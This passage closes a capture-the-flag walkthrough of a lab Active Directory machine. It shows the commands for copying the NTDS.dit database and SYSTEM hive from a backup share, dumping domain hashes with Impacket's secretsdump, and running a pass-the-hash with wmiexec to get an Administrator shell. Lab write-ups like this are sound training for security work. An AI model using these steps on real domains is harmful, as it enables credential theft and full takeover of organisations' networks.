

### Dumping NTDS.dit
Since this is a backup account for the domain, I check to see what is mounted and discover that we now have unrestricted access to the `C:\` drive. This means we can effectively copy the **NTDS.dit** and **SYSTEM** registry to our local machine in order to dump all domain hashes, including the Administrator's.



Trying to copy from the `C:\Windows\System32\` directory is restricted even though we own it, however there is a backups folder inside of the IT share that we now have access to. This contains both the **NTDS.dit** file and the **SYSTEM** registry needed to decrypt it.

```
$ scp -i id_rsa -P 2222 svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line\ Support/Backups/registry/SYSTEM .
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
SYSTEM                                                                                                              100%   18MB   8.3MB/s   00:02    
                                                                                                                                                      
$ scp -i id_rsa -P 2222 svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line\ Support/Backups/Active\ Directory/ntds.dit .
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
ntds.dit
```

After transferring those to my Kali machine with scp, I use Impacket's [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) script to extract the Administrator's hash.

```
$ impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```



Finally, we can attempt to crack this or utilize it in a Pass-The-Hash attack in order to grab a shell on the domain with full administrative privileges. I end up using WmiExec as to work around the need for Kerberos ticketing.

```
$ impacket-wmiexec -hashes ':[REDACTED]' voleur.htb/administrator@dc.voleur.htb -k
```



That's all folks, this box was one of my favorites because it covered plenty of topics worth knowing and have gotten me out of a pinch in the past. I hope this was helpful to anyone following along or stuck and happy hacking!
